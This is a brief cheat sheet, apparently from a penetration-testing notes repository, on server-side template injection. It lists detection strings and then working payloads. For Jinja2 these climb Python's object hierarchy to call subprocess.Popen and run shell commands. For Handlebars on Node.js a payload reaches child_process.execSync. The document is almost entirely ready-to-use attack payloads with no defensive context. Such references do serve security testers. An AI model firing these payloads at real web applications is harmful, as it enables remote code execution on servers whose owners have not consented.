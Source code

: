 # Server-Side Template Injection (SSTI)
```
${{<%[%'"}}%    # Special characteres for detection
{{7*7}}

```
## Python
### Jinja2
```
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}   # To list all objects
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}   # Using subprocess.Popen index in 401 to achieve rce
```
Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Node.js Express middleware 
```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```

